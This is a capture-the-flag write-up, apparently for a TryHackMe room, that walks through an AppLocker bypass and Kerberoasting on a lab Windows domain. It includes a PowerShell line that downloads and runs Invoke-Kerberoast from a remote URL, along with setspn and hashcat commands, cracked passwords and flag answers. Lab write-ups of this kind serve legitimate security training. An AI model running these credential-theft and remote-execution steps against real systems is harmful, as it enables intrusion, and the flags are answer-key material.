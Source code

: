 # CORP

## BASIC INFO
```
Windows machine
export ip=54.194.16.231

Username: corp\dark
Password: _QuejVudId6
```

# BYPASSING APP LOCKER

`C:\Windows\System32\spool\divers\color` is by default whitelisted.\

> - **Access the file and obtain the flag.**
>> flag{a12a41b5f8111327690f836e9b302f0b}

Windows powershell saves all previous command into a file called ConsoleHost_history located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

## KERBERROASTING

Lets first enumerate Windows. If we run `setspn -T medin -Q ​ */*` we can extract all accounts in the SPN.\
SPN is the Service Principal Name, and is the mapping between service and account.\
> - **Running that command, we find an existing SPN. What user is that for?**
>> fela


Using Powershell to Invoke-Kerberoast script.
```
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')

Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

Copy the hash down and save it into a file.\
Next, run `hashcat -m 13100 -a 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt --force`

> - **What is the users password in plain text?**
>> rubenF124

> - **Login as this user. What is his flag?**
>> flag{bde1642535aa396d2439d86fe54a36e4}

Go to `C:\Users\fela.CORP`, when it prompt to gain access click yes and use the credentials found above.

> - **What is the decoded password?**
>> tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T

> - **Now we have the Administrator's password, login as them and obtain the last flag.**
>> THM{g00d_j0b_SYS4DM1n_M4s73R}

![badges](../../../badges/dianchia.png)